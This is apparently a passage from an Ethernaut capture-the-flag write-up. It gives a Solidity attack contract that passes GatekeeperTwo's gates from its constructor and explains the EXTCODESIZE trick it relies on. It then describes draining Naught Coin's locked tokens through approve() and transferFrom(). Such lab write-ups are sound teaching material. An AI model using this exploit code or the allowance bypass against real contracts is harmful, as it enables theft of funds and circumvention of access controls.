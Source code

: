 Note that as of solidity 0.8.0, you cannot do uint64(0) - 1 unless it's done inside an uncheck scope.

```
pragma solidity ^0.8.0;

contract AttackGatekeeperTwo {

    constructor(address _victim) {
        bytes8 _key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);
        bytes memory payload = abi.encodeWithSignature("enter(bytes8)", _key);
        (bool success,) = _victim.call(payload);
        require(success, "failed...");
    }

    function passGateThree() public view returns(bool) {
        // if a ^ b = c then a ^ c = b;
        // uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1
        // would be rewritten as
        // uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(0) - 1 == uint64(_gateKey)
        uint64 key = uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ type(uint64).max;
        return uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ key == type(uint64).max;
    }
}
```

MAIN TAKEAWAY FROM CHALLENGE:

Checking for a contract's code size during construction of that contract using the EXTCODESIZE opcode, you're going to get an empty value because the contract has not been fully constructed yet. During construction, the contract will receive a pre-made address but its size will be zero until construction is complete.
We can create zombie contracts by stopping a contract's initialization. Meaning, the contract has an address but no associated code.

## 15. Naught Coin

Here we have a simple ERC-20 contract in our hands, that prevents us to transfer money to someone. However, this is a bad implementation as the idea of this contract is to lock our tokens for 10 years, It overrides the `transfer()` method and the lockTokens modifier is being used to block us from transferring our tokens, but this does not prevent us to approve that someone, and let them call transferFrom to take our money. Cause from the NaughtCoin contract we can see that only the  `transfer()` function is guarded by the 10 years as all other ERC20 functions were not overridden including the famous `transferFrom()` :) That is precisely what we are going to do. We use the `approve()` to approve us the players in sending our token and the we use the `transferFrom` to milk the balance to zero.
After getting our new instance we can check the balance using the first line from the codes written below, then we can also check the current allowance to know if we can use the `transferFrom` function to withdraw and of course at first we can't, so we approve with the third line, now we can use the `transferFrom` function.
